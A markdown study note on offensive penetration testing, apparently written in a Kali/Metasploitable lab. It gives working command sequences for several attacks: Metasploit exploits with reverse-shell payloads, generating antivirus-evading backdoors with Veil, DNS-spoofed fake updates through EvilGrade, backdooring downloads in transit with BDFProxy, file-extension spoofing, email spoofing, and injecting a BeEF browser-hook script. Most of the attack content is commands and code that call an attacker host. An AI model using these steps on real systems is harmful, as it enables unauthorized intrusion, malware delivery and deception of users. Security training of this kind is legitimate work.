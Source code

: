 # Gaining Access

Three main approaches:

1. [Server Side](#server-side)

2. [Client Side](#client-side)

3. [Social Engineering](#social-engineering)

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

---

* These attacks require user interaction and should be attempted if server-side attacks do not work.

* We can use Veil framework to generate backdoors which cannot be detected by anti-virus softwares.

```shell
veil

use 1 #uses evasion

list #shows list of payloads

use 15 #uses particular payload

set LHOST 10.0.2.7 #value as our IP

set LPORT 8080

set PROCESSORS 1 #making the payload unique by setting properties values

set SLEEP 5

generate #generate the backdoor
```

* Once backdoor is generated, we can check if it is detected by antivirus programs.

* To listen for incoming connections:

```shell
msfconsole

use exploit/multi/handler #module for listening incoming connections

show options

set PAYLOAD windows/meterpreter/reverse_https #set payload option

set LHOST 10.0.2.7 #set lhost as ip address

set LPORT 8080

exploit
```

* To check if backdoor works, we first need to move the backdoor file to the location '/var/www/html'.Then, after starting the Kali web server, we can use the Windows VM to visit the specific directory of the backdoor file.

* We can use EvilGrade to launch a fake upgrade in order to make the target download the backdoor:

```shell
cd /opt/evilgrade

./evilgrade

show modules

configure dap #this selects the module 'dap'

show options

set agent /var/www/html/evil-files/rev_https_8080.exe #path of backdoor file

set endsite www.speedbit.com

start

#Now we would want to be the MITM, so in a separate terminal we can use spoof.cap and DNS spoofing; note that metasploit is still listening for incoming connections in the background

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

#Now we can check the software(DAP) for updates on the Windows machine, and get access to it remotely
```

* Another method for downloading backdoors is using a software called BDFProxy:

```shell
#Navigate to /opt/BDFProxy, and configure bdfproxy.cfg according to target

cd /opt/BDFProxy/

./bdf_proxy.py

#Now, become the MITM
bettercap -iface eth0 -caplet spoof.cap

#Apply a rule for packets
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

#run resource file given by BDFProxy
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc

#Now, we can wait for target computer to download something like an .exe file, so that it can get backdoored during the process
```

## Social Engineering

---

* These attacks rely on gathering info about the user, and building a strategy based on the info gathered.

* Maltego can be used as an information gathering tool. Based on the info gathered, strategies can be built for the target.

* We can combine backdoor with any file by using a [download-and-execute payload](../autoit-download-and-execute.txt). As this sample script is written in AutoIt, we have to change extension from .txt to .au3. Then, it can be compiled into a .exe file, and moved to the directory /var/www/html/. At the same time, we have to listen for incoming connections using Metasploit.

* Using a right-to-left override character, we can spoof the file extension (from .exe to .jpg, for example).

* Email spoofing can be done by using a SMTP server, or using PHP mail functions coupled with a web hosting plan.

* BeEF (Browser Exploitation Framework) can be used to launch attacks on a hooked target. A basic way of hooking a browser is by injecting the given script into the web file of Kali and visiting the IP address on target machine.

* Script for injecting BeEF:

```javascript
var imported = document.createElement('script');
imported.src = 'http://10.0.2.7:3000/hook.js';
document.head.appendChild(imported);
```

* By using BeEF with Bettercap, we can inject JavaScript code into the target browser.

```shell
#first add BeEF injection script file location into hstshijack.cap payload section

bettercap -iface eth0 -caplet spoof.cap

hstshijack/hstshijack

#if target computer loads any website on the browser now, it gets hooked to BeEF
```

* Once hooked, we can use BeEF commands to attack the target.

---
